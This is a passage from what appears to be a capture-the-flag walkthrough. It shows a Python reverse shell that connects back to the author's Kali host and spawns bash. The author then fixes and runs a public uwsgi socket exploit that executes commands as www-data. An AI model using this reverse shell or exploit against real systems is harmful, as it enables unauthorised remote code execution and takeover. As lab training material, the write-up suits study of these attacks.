     s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.6",443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    pty.spawn("/bin/bash")
    

I tested it as my current user to verify that it could connect back to my Kali
box, and it could.

#### Get RCE

I downloaded `uwsgi_exp.py` from GitHub, uploaded it, and ran it, but it
fails.

    
    
    qtc@aeb4525789d8:~$ python /dev/shm/.d.py -m unix -u /tmp/uwsgi.socket -c 'id > /tmp/d'
    [*]Sending payload.
    Traceback (most recent call last):
      File ".t.py", line 146, in <module>
        main()
      File ".t.py", line 143, in main
        print(curl(args.mode.lower(), args.uwsgi_addr, payload, '/testapp'))
      File ".t.py", line 110, in curl
        return ask_uwsgi(addr_and_port, mode, var)
      File ".t.py", line 77, in ask_uwsgi
        s.send(pack_uwsgi_vars(var) + body.encode('utf8'))
      File ".t.py", line 26, in pack_uwsgi_vars
        pk += sz(k) + k.encode('utf8') + sz(v) + v.encode('utf8')
      File ".t.py", line 18, in sz
        if sys.version_info[0] == 3: import bytes
    ModuleNotFoundError: No module named 'bytes'
    

I opened a Python shell and played with it, and found that without importing
`bytes`, it’s already there:

    
    
    qtc@aeb4525789d8:~$ python
    Python 3.7.6 (default, Feb  2 2020, 09:11:24) 
    [GCC 8.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> h = 'abcd'
    >>> bytes.fromhex(h)
    b'\xab\xcd'
    

So I edited the code to remove that import line, and re-uploaded it. Now it
works (proof of concept, output `id` to a file in `/tmp`):

    
    
    qtc@aeb4525789d8:~$ python /dev/shm/.d.py -u /tmp/uwsgi.socket -c 'id > /tmp/d' -m unix
    [*]Sending payload.
    
    qtc@aeb4525789d8:~$ cat /tmp/d 
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    